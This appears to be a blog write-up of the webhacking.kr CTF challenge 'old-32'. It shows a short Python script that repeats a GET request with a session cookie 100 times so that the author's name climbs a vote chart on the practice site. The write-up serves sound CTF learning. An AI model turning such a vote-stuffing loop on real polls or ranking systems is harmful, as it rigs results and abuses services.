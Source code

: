 ```yaml
---
layout: post
permalink: /posts/webhackingkr/old-32
title: "Webhacking.kr write-up: old-32"
date: 2020-09-05 21:08
tags: webhacking.kr scripting
description: "Today's challenge is a bit interesting as you have to vote your way up."
---
```


Link | point | tag
-----|-------|----
[old-32](https://webhacking.kr/challenge/code-5/) | 150 | Scripting

Welcome and welcome back to another webhacking.kr CTF challenge. Today's challenge is a bit interesting as you have to vote your way up.

![question](/assets/images/webhackingkr/2020-09-05-old-32/1.png)

Look like someone making their way up. Time to make ourselves top of the chart by using a simple python script.

```python
import requests

url = "https://webhacking.kr/challenge/code-5/"
header = {'cookie':'PHPSESSID=<change your session ID>'}

for i in range(0,100):
        req = "?hit=DesKel"
        r = requests.get(url+req, headers=header)

```

Make sure you have changed the PHPSESSID before running the script. The username (DesKel in my case) is optional.

Try to refresh the page and you will see yourself climbing up the rank. After a few seconds, refresh the page and solve the challenge whenever you reached 100/100 votes.

![solve](/assets/images/webhackingkr/2020-09-05-old-32/2.png)

![another solve](/assets/images/webhackingkr/2020-09-05-old-32/3.png)
